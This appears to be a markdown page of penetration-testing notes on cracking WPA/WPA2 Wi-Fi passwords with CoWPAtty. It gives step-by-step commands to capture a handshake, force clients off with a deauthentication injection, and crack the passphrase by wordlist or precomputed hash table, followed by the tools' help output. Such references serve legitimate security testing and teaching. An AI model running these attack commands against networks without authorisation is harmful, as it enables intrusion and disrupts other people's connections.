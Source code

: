 # CoWPAtty Attack (WPA/WPA2)

Use CoWPAtty to crack the password in either dictionary mode (plaintext) or hash mode. The latter is quicker.

## Commands

* Run [reconnaissance](../reconnaissance.md) first

```bash
# Install cowpatty/genpmk
sudo apt-get install cowpatty

# Start monitor mode
sudo airmon-ng start wlan0

# Start a screen session with a horizonal split screen

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq

# Check if four-way handshake is indeed valid
cowpatty -r $PCAP -c

# Crack the password in dictionary mode (slowest)
cowpatty -r $PCAP -f $WORDLIST -s $SSID

# Crack the password in hash mode (fastest)

## Generate a RAINBOW table using a wordlist and filter by SSID
genpmk -f $WORDLIST -d $RAINBOW -s $SSID

## Crack the password with the RAINBOW table and filter by SSID
cowpatty -r $PCAP -d $RAINBOW -s $SSID
```
## References

* [cowpatty](https://www.willhackforsushi.com/?page_id=50)

```text
cowpatty -h
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Usage: cowpatty [options]

        -f      Dictionary file
        -d      Hash file (genpmk)
        -r      Packet capture file
        -s      Network SSID (enclose in quotes if SSID includes spaces)
        -c      Check for valid 4-way frames, does not crack
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit
```

```text
genpmk -h
genpmk 1.3 - WPA-PSK precomputation attack. <jwright@hasborg.com>
Usage: genpmk [options]

        -f      Dictionary file
        -d      Output hash file
        -s      Network SSID
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit

After precomputing the hash file, run cowpatty with the -d argument.
```

![fourway-handshake](../../images/fourway-handshake.png)